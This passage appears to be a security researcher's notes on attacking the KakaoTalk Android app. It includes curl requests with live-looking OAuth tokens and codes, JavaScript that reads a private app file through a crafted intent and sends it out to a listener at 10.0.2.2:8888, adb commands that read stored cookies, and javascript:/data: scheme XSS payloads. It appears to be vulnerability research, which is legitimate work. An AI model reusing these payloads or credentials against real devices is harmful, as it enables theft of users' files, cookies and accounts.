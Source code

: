 ```bash
    -H $'Host: kauth.kakao.com' -H $'Authorization: 595c420c563848109b87a2677285cbaf00000016998108925870010obQDJlP7u9-308521c7f910140c1af15a83f7ef2282864e0e4f3c1ee88e97e3964f07cdc0e2' -H $'User-Agent: KT/10.1.7 An/11 en;KAKAOTALK' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' \
    $'https://kauth.kakao.com/oauth/authorize?client_id=24b2ff717557a8090279253242652f80&redirect_uri=kakao24b2ff717557a8090279253242652f80%3A%2F%2Foauth&response_type=code'

curl -i -s -k -X $'POST' \
    -H $'Host: kauth.kakao.com' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 271' -H $'Accept-Encoding: gzip, deflate' -H $'User-Agent: okhttp/4.9.3' -H $'Connection: close' \
    --data-binary $'client_id=24b2ff717557a8090279253242652f80&code=pYn2ksN-KH8bIaCHp3OwiM98G5xgdzkEvIgA4HDBhUT-uVcrTXzHiEgp1vA1HrERSESLXQoqJY8AAAGI3iGODg&grant_type=authorization_code&android_key_hash=S2FrYW9JIE1hc3RlciBLZXkg&redirect_uri=kakao24b2ff717557a8090279253242652f80%3A%2F%2Foauth' \
    $'https://kauth.kakao.com/oauth/token'
```
- I can start arbitrary components via the `intent:` scheme in `CommerceBuyActivity` (`kakaotalk://buy`)
  - I can exfiltrate files by sending Intents with `content://` URLs to `MyProfileSettingsActivity`:
```javascript
// Read Firebase Installation configuration
location.href = "intent:#Intent;component=com.kakao.talk/.activity.setting.MyProfileSettingsActivity;S.EXTRA_URL=content://com.kakao.talk.FileProvider/onepass/PersistedInstallation.W0RFRkFVTFRd+MTo1NTIzNjczMDMxMzc6YW5kcm9pZDpiNjUwZmVmOGI2MDY1MzVm.json;end"
var data = document.querySelector('pre').innerHTML;
img = new Image();
img.src = 'http://10.0.2.2:8888?data=' + encodeURIComponent(data);
```
- I can open arbitrary URLs via `KGPopupActivity`, `MyProfileSettingsActivity` and `CommerceShopperWebViewActivity`:
  - `adb shell am start "intent:#Intent\;component=com.kakao.talk/.gametab.view.KGPopupActivity\;S.url=https://foo.com\;end"`
  - `location.href = "intent:#Intent;component=com.kakao.talk/.activity.setting.MyProfileSettingsActivity;S.EXTRA_URL=http://10.0.2.2:8888/;end"`
  - `location.href = "intent:#Intent;component=com.kakao.talk/com.kakao.talk.commerce.ui.shopper.CommerceShopperWebViewActivity;S.URL=https://foo.com;end"`
  - `InAppBrowserActivity` -> `kakaointernalweb://host/q?url=https://www.foo.com&spamType=0&isPlusType=true`
  - `BizInAppBrowserActivity`-> `kakaotalk://bizwebview/open?url=http://www.foo.com`
- I can execute JavaScript by:
  - Pointing to attacker-controlled URLs
  - Using the `data:` scheme, e.g.: `location.href = "intent:#Intent;component=com.kakao.talk/.activity.setting.MyProfileSettingsActivity;S.EXTRA_URL=data%3Atext%2Fhtml%2C%3Cscript%3Ealert%28%27XSS%27%29%3B%3C%2Fscript%3E;end"`
  - Using the `javascript:` scheme, e.g.: `location.href = "intent:#Intent;component=com.kakao.talk/.activity.setting.MyProfileSettingsActivity;S.EXTRA_URL=javascript:alert%28%221%22%29;end"`
- I can access `/storage`, `/data/data/com.kakao.talk/files`, `/data/data/com.kakao.talk/cache` directories by opening `content:` URLs in `MyProfileSettingsActivity`, `KaKaoMailDocumentViewWebActivity`, and others, e.g.:
  - `location.href = "intent:#Intent;component=com.kakao.talk/.activity.kakaomail.KaKaoMailDocumentViewWebActivity;S.url=content://com.kakao.talk.FileProvider/onepass/PersistedInstallation.W0RFRkFVTFRd+MTo1NTIzNjczMDMxMzc6YW5kcm9pZDpiNjUwZmVmOGI2MDY1MzVm.json;S.subContent=foo;end"`
  - Reading a cookie: `adb shell content read --uri "content://com.kakao.talk.FileProvider/external_files/emulated/0/Android/data/com.kakao.talk/KakaoTalk/cookie/.57f323da7592b0b5de1360de3da701b0d1aa6627"`
  - Using the `android-app:` scheme: `adb shell am start "android-app://#Intent\;component=com.kakao.talk/.activity.setting.MyProfileSettingsActivity\;S.EXTRA_URL=content://com.kakao.talk.FileProvider/external_files/emulated/0/Android/data/com.kakao.talk/KakaoTalk/cookie/.57f323da7592b0b5de1360de3da701b0d1aa6627\;end"`
- There are a couple of JavaScript interfaces that access the user's location (see [below](#javascriptinterface))
- AuTODOwnload to `/sdcard/Download` via Chrome (`app://kakaotalk/openURL?url=`)
- I can access other `BROWSABLE` Activities or Apps via the `android-app:` scheme, e.g.:
  - `location.href = "android-app://com.google.android.googlequicksearchbox/https/www.google.com"`